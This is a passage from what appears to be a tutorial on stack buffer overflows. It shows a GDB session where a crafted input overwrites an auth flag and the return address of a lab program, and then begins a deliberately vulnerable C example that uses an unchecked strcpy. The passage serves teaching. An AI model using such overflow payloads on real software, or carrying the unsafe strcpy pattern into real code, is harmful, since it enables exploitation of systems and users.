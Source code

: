 Magic. This is pure magic. Let's look at all the Bs in the memory using GDB.

```
(gdb) break *0x08048497
Breakpoint 1 at 0x8048497
(gdb) run "`python -c 'print "B"*116 + "\x01"'`"
Starting program: /root/Desktop/ex4 "`python -c 'print "B"*116 + "\x01"'`"

Breakpoint 1, 0x08048497 in func ()
(gdb) x /50x $esp
0xbffff3e0:	0xbffff3fc	0xbffff697	0xb7ffeff4	0xbffff4e0
0xbffff3f0:	0xb7fffac0	0xbffff4b4	0xb7feb662	0x42424242
0xbffff400:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff410:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff420:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff430:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff440:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff450:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff460:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff470:	0x00000001	0xbffff697	0x0804850b	0xb7fbeff4
0xbffff480:	0x08048500	0x00000000	0xbffff508	0xb7e75e66
0xbffff490:	0x00000002	0xbffff534	0xbffff540	0xb7fe0860
0xbffff4a0:	0xb7ff6821	0xffffffff
(gdb) continue
Continuing.
Secret!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

If you haven't caught on as to why I use Bs instead of As, it's because B is represented by 42 in hex. But aside from that, I will direct your attention to what we overwrote that is causing the segmentation fault. At 0xbffff46c (last WORD of the 0xbffff460 line), the return address has been replaced by the magnificent 0x42424242. Obviously 0x42424242 is not a valid memory address for this program, so the program basically crashes (and possibly burns). However, what if replace the return address with something that is actually valid? Would the program still execute instructions at the new return address?

### Messing With the Return

Let's look at a modified version of example 4.

```c
/*Example 5*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void lonely(void)
{
	printf("Better secret!!\n");
}

int func(int auth, char *str)
{
	char data[32];
	strcpy(data, str);
	if(auth == 1)
	{
		printf("Secret!\n");
	}
	else
	{
		exit(0);
	}
```